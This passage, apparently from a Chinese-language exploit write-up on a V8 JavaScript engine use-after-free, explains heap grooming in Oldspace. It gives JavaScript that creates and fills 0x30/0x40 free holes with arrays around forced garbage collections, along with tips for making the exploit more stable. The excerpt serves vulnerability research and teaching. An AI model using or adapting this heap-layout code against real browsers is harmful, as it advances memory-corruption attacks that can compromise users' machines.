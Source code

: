 ### 布局内存

通过上面的步骤稳定 Oldspace 后，就可以按照思路在 Oldspace 中布局内存，构造 UAF 了。

先是构造若干 0x30, 0x40 的空闲内存空洞。

```javascript
const count = 10;
let bufs = new Array(count);
let arr = new Array(2 * count);
let arr2_before = new Array(2 * count);
let arr2 = new Array(count);
let arr3 = new Array(count);
let arr_keep = new Array(count);

function setUpWeakMap() {
	for (let i = 0; i < arr.length; ++i) {
	    if (i < count) {
	      arr[i] = [ 1.1, 1.2, 1.3, 1.4, 1.5 ];
	    } else {
	      arr[i] = [ 1.1, 1.2, 1.3, 1.4, 1.5, 1.6, 1.7 ];
	    }
	}

	TrigerGc();
	
	for (let i = 0; i < arr.length; ++i) {
	    if (i < count) {
	      arr[i] = [ 1.1, 1.2, 1.3, 1.4, 1.5 ];
	    } else {
	      arr[i] = [ 1.1, 1.2, 1.3, 1.4, 1.5, 1.6, 1.7 ];
	    }
	}

	TrigerGc();
	
	...
```

---
**ℹ️NOTE**：bufs，arr，arr2_before 这些一定要是全局变量，这样它们申请的时机较早，和临时变量处于不同的页面中：
- 不会影响漏洞利用期间的内存布局
- 释放后不会被 Sweep，可以稳定的 UAF

---

再申请新数组填入空洞，0x30 空洞被填入 `JSArray`，0x40 空洞被填入 `FixedArray`(缓冲区)，`JSArray` 中有指针指向 `FixedArray`。

实际测试中我发现，利用 double 数组（ arr3），额外申请一些 0x10 的空洞，有助于提升利用的稳定性：
- 可以填充之前已经存在的 0x10 空洞
- 可以让 `arr2` 中的 `JSArray` 不位于空闲块的开头，被 Sweep 后不会被 `FreeSpace` 的数据覆盖。

``` javascript
	...
	
	for (let i = 0; i < arr3.length; ++i) {
		arr3[i] = [ 1.1 ];
	}
	
	TrigerGc();
	
	
	for (let i = 0; i < arr2.length; ++i) {
		arr2[i] = [ 1.7, 1.7, 1.7, 1.7, 1.7, 1.7, 1.7 ];
	}
	
	TrigerGc();
```
